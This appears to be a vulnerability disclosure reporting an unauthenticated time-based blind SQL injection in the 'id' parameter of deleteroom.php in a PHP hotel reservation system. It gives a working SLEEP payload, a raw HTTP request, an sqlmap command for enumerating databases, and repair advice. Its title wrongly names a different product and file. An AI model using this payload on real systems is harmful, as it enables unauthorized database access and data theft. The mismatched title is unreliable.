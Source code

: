 # SourceCodester Petrol Pump Management Software  deletegallery.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Online Hotel Reservation System In PHP With Source Code

## Vendor Homepage

- [Online Hotel Reservation System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-hotel-reservation-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- https://download.code-projects.org/details/f2af5165-f165-4d1c-9648-394dc5119f9d

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'deleteroom.php' file of the 'Online Hotel Reservation System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Online Hotel Reservation System In PHP With Source Code", K1nako discovered a critical SQL injection vulnerability in the "deleteroom.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind

## Vulnerability location:

- 'id' parameter

## Payload:

```
id=1'+(SELECT 0x50504e58 WHERE 2593=2593 AND (SELECT 6569 FROM (SELECT(SLEEP(5)))VgWi))+'
```

```
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.248.130:8885/admin/deleteroom.php?id=1'+(SELECT 0x50504e58 WHERE 2593=2593 AND (SELECT 6569 FROM (SELECT(SLEEP(5)))VgWi))+'
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250728175350111](assets/image-20250728175350111.png)



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r C:\Users\14420\Desktop\data.txt --dbs -v 3 --batch --level 5
```

```
//data.txt
GET /admin/deleteroom.php?id=1* HTTP/1.1
Host: 192.168.248.130:8885
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=erobstmt8j7vlp6ka4ath65un3
Connection: keep-alive

```

# Attack results

![image-20250728175426536](assets/image-20250728175426536.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.